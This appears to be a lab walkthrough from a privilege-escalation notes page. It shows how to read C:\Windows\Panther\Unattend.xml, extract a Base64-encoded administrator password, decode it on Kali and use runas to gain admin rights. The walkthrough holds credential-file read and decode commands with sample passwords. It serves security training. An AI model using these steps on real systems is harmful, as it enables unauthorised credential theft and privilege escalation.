  The `Unattend.xml` file allows administrators to configure and automate a wide-scale Windows deployment. If this file is not properly cleaned up after installation, it can leave a local administrator's password on the system. While the password is often encoded in Base64, this is not a form of encryption and can be easily reversed to reveal the plaintext password.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves finding the `Unattend.xml` file, extracting the encoded password, and decoding it.
  
  ### 1\. Finding the Password (Windows VM)
  
  1.  Locate and Read the Unattend.xml File
  
      These files are often found in C:\Windows\Panther\. Open a command prompt on the Windows VM and use the type command to display its contents.
  
      
  
      ```ruby
      type C:\Windows\Panther\Unattend.xml
  
      ```
  
  2.  Extract the Encoded String
  
      Look through the XML output for the <Password> section. Inside, you will find a <Value> tag containing a Base64 string.
  
      
  
      ```xml
      <UserAccounts>
          <AdministratorPassword>
              <Value>QWRtaW5QYXNzd29yZDEyMyE=</Value>
              <PlainText>false</PlainText>
          </AdministratorPassword>
      </UserAccounts>
  
      ```
  
      Copy the Base64 string from between the `<Value>` tags (in the example above: `QWRtaW5QYXNzd29yZDEyMyE=`).
  
  ### 2\. Decoding the Password (Kali VM)
  
  1.  Decode the Base64 String
  
      On your Kali machine, use the echo and base64 -d commands to decode the string you copied.
  
      
  
      ```Bash
      echo <COPIED_BASE64_STRING> | base64 -d
  
      ```
  
  2.  Reveal the Plaintext Password
  
      The output will be the plaintext administrator password.
  
      
  
      ```Bash
      # Example using the string from above
      echo QWRtaW5QYXNzd29yZDEyMyE= | base64 -d
      AdminPassword123!
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Now that you have the administrator's password, you can use it to escalate your privileges.
  
  1.  Switch to the Administrator Account
  
      On the Windows VM, you can now use these credentials with commands like runas to execute commands as the administrator or simply log out and log back in as the administrator.
  
      DOS
  
      ```
      runas /user:Administrator cmd.exe
  
      ```
  
      Enter the decoded password when prompted, and you will be granted a new command prompt with administrative privileges.
  
      <img width="640" height="154" alt="image" src="https://github.com/user-attachments/assets/1d27a0df-de9a-4831-9e45-dd6e09805369" />

  
      ```xml
       <AutoLogon>
                <Password>
                    <Value>cGFzc3dvcmQxMjM=</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>Admin</Username>
            </AutoLogon>
      ```




  </details>



- <details>
      <summary>Memory</summary>








  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>
</details>












